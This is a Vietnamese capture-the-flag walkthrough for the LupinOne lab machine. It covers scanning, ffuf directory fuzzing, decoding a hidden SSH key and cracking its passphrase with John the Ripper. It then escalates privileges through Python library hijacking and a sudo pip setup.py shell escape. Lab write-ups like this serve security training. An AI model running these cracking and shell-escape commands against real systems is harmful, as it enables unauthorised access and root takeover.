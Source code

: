 ## Step 1
Máy LupinOne

![image](https://user-images.githubusercontent.com/97771705/222322292-994cb730-ae7e-4707-a1e6-db79ccfe6bd3.png)

Tại máy Kali, nhập lệnh **netdiscover -r 10.0.2.0/24** để tìm kiếm ip của máy Lupin

![image](https://user-images.githubusercontent.com/97771705/222322533-3a8528a7-6f13-40ae-8411-47ff2b94e9ca.png)

Sử dụng lệnh **nmap -sC -sV 10.0.2.4**

![image](https://user-images.githubusercontent.com/97771705/222322990-7565d92b-022d-4686-97f1-0a41c2b17313.png)

Ta tìm thấy 2 port:
- Port 22 có SSH server
- Port 80 có Apache Sever và 1 file /~myfiles

Ta thử đọc ~myfiles

![image](https://user-images.githubusercontent.com/97771705/222323732-50598bf4-b7bd-4fab-bd34-9e386fe4e7f1.png)

Lỗi 404 not found, tiếp tục nhấn f12 để xem source code

![image](https://user-images.githubusercontent.com/97771705/222323930-96023d8a-aa11-4335-84b0-dcdb131c1279.png)

## Step 2
Tiến hành fuzzing để tìm kiếm thư mục ẩn
Ta dùng lệnh **ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u 'http://10.0.2.4/~FUZZ'**
+ Sử dụng công cụ **ffuf** để thực hiện directory attack, tìm kiếm xem có thư mục nào có tên trong list hay không
+ **-c** là khi tìm thấy thì in màu nổi bật hơn (như hình thì là màu xanh)
+ **-w** là path tới tập tin danh sách từ điển đối chiếu. Trên kali có sẵn tại path **/usr/share/wordlists/dirbuster/**, và ta chọn tệp **directory-list-2.3-small.txt**
+ **-u** là URL muốn fuzz, trong đó  **FUZZ** là vị trí cần tìm 
+ **~** được sử  dụng cho cả thư mục lẫn tệp

![image](https://user-images.githubusercontent.com/97771705/222328117-df4ea8bb-07cc-4ef3-b513-43801cdcae9a.png)

![image](https://user-images.githubusercontent.com/97771705/222328143-f96fd0da-7054-4640-ba3d-6f82b262d87d.png)

Truy cập **http://10.0.2.4/~secret** 

![image](https://user-images.githubusercontent.com/97771705/222328385-2bc8f2aa-75bf-4985-b334-a8b2c51efb95.png)

Thông tin cho ta biết SSH private key đang nằm đâu đó trong thư mục này. Ta phải tìm và crack passphrase của private key đó
Ta dùng lệnh **ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u 'http://10.0.2.4/~secret/.FUZZ' -e .txt,.html**
+ **.** sử dụng cho tệp
+ **-e .txt,.html** để tìm kiếm file với đuôi txt, html

![image](https://user-images.githubusercontent.com/97771705/222330744-4bd68b23-7f11-437b-8878-4242bc1f951f.png)

Ta tìm thấy file **mysecret.txt** 
Truy cập thử 

![image](https://user-images.githubusercontent.com/97771705/222330959-c0104c45-999b-4a47-bf4e-cf60e55e1ce3.png)

Đưa lên dcode.fr, phát hiện đây là mã base58

![image](https://user-images.githubusercontent.com/97771705/222331199-b8bc25b8-40a5-4ce5-9498-983b74712268.png)

Giải mã base 58, ta được open ssh private key

![image](https://user-images.githubusercontent.com/97771705/222331415-ea5b41dc-6563-4817-9122-1c0d64906cef.png)

## Step 3
Private key này có passphrase bảo vệ. Hiểu đơn giản passphrase là một mật khẩu được sử dụng để bảo vệ và mã hóa private key SSH. Khi tạo ra private key, người dùng có thể tạo ra một passphrase để đảm bảo rằng chỉ có người dùng được ủy quyền mới có thể sử dụng private key. Khi một người dùng muốn sử dụng private key, họ sẽ được yêu cầu nhập passphrase để giải mã key trước khi sử dụng nó. Điều này giúp đảm bảo an toàn cho key trong trường hợp nó bị đánh cắp hoặc lộ ra ngoài.

Lưu SSH Private Key vào 1 file **key.txt**

Sử dụng tool **John the Ripper** để Brute-force passphrase của SSH Private Key

Command **ssh2john** của John the Ripper được sử dụng để chuyển đổi private key của SSH sang định dạng mà John the Ripper có thể sử dụng để tấn công bằng cách thử các passphrase khác nhau.

Sử dụng lệnh **/usr/share/john/ssh2john.py key.txt > pass.txt**

![image](https://user-images.githubusercontent.com/97771705/222358294-2edff0bb-f19d-4c30-846e-919554270e0e.png)

Trong **~secret** cũng đề cập tới fasttract. Đây là 1 file có sẵn trong wordlist của kali, có thể sử dụng để bruteforce

Sử dụng lệnh **john pass.txt --wordlist=/usr/share/wordlist/fasttract.txt**

![image](https://user-images.githubusercontent.com/97771705/222359062-465d986e-97f0-42a2-9432-87b0f89e346c.png)

Bruteforce thành công passphrase của SSH private key! (P@55w0rd!)

## Step 4
Sử dụng lệnh **ssh -i key.txt icex64@10.0.2.4**
+ **-i key.txt** chỉ định đường dẫn tới file chứa private key để đăng nhập vào máy chủ từ xa. File key này sẽ được sử dụng để xác thực cho việc đăng nhập, thay vì sử dụng mật khẩu.
+ icex64 là tên người dùng trên máy chủ từ xa mà ta muốn đăng nhập.
+ 10.0.2.4 là địa chỉ IP của máy chủ từ xa mà ta muốn truy cập.

Sau khi nhập đúng passphrase, đăng nhập thành công LupinOne

![image](https://user-images.githubusercontent.com/97771705/222363678-787c115d-bc33-4bcc-9898-c8cab33af860.png)

Tìm kiếm thư mục của máy 

![image](https://user-images.githubusercontent.com/97771705/222363964-ecf32a13-7716-4305-910b-e1f9a16261c1.png)

Đọc **user.txt** ta được flag đầu tiên

![image](https://user-images.githubusercontent.com/97771705/222364174-a1f92062-8d93-4db0-85a8-426f21d94908.png)

> 3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}

## Step 5
Dùng vài lệnh cơ bản để kiểm tra tên người dùng và các thư mục thông thường

![image](https://user-images.githubusercontent.com/97771705/222367163-323cb1fe-e204-4379-97d2-72c42f03aaf5.png)


Sử dụng lệnh **sudo -l** để xem quyền của user icex64, nó sẽ hiển thị danh sách các lệnh mà người dùng hiện tại được phép thực thi với đặc quyền hạn của tài khoản root hoặc các tài khoản khác có quyền truy cập đặc biệt.

![image](https://user-images.githubusercontent.com/97771705/222366966-1e5d0434-28a5-425e-ba74-88a62990e783.png)

icex64 có thể run 1 tập tin python. Đọc thử

![image](https://user-images.githubusercontent.com/97771705/222367836-7f6f99a7-0a38-4ec2-ad74-c265365d97cf.png)

Ta thử tìm kiếm file có quyền rwx cho tất cả người dùng bằng lệnh **find / -type f -perm -ug=rwx**
![image](https://user-images.githubusercontent.com/97771705/222369987-c0272716-e84f-41f7-9bc2-8db7f23722f2.png)

File python mà icex64 có thể run chứa đoạn import webbrowser, đây cũng có tập tin webbrowser.py

Xem quyền sở hữu của file webbrowser.py -> người dùng root
![image](https://user-images.githubusercontent.com/97771705/222373300-17896e59-2829-45f9-b0e7-5b829d44a25e.png)

Quyền của file này là 777, tức là bản thân icex64 cũng có thể chỉnh sửa, thực thi file -> bắt đầu leo thang đặc quyền thông qua Python Library Hijacking technique

## Step 6
Sử dụng lệnh nano để chỉnh sửa tệp. Thêm **os.system("/bin/bash")**
![image](https://user-images.githubusercontent.com/97771705/222376371-137c621a-6cf8-49e0-a1cd-6a9f62cc83de.png)

```
Trong Python, "os.system()" là một hàm cho phép thực thi các lệnh hệ thống hoặc các tiến trình bên ngoài. Khi chạy lệnh "os.system("/bin/bash")", nó sẽ thực thi lệnh "/bin/bash" trên hệ thống.

Lệnh "/bin/bash" được sử dụng để mở một cửa sổ dòng lệnh Bash trên hệ thống Linux hoặc macOS. Nếu lệnh được thực thi thành công, một cửa sổ dòng lệnh Bash mới sẽ được mở ra, cho phép người dùng nhập các lệnh để thực thi trên hệ thống.
```

Nhập lệnh **sudo -u arsene /usr/lib/python3.9 /home/arsene/heist.py**
![image](https://user-images.githubusercontent.com/97771705/222379224-0d08f4ec-aa8c-4e69-881c-de6ef03cbad4.png)

Xem 1 vài file trên home của arsene

![image](https://user-images.githubusercontent.com/97771705/222381533-ea7d720e-4c14-4377-bc9c-013b85778e7e.png)

User arsene có quyền root thực thi file /usr/bin/pip

![image](https://user-images.githubusercontent.com/97771705/222385595-4529dc20-92f1-4ac3-8a53-97dbf18e2b5c.png)

Thực thi 3 lệnh sau
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
![image](https://user-images.githubusercontent.com/97771705/222388785-008e7b0d-f9db-4e0a-a264-252e2c3c550c.png)
![image](https://user-images.githubusercontent.com/97771705/222388841-cd4fd85f-eb76-4f24-a07c-f66b3d6e45a0.png)

>3mp!r3{congratulations_you_message_to_pwn_the_lupin1_box}


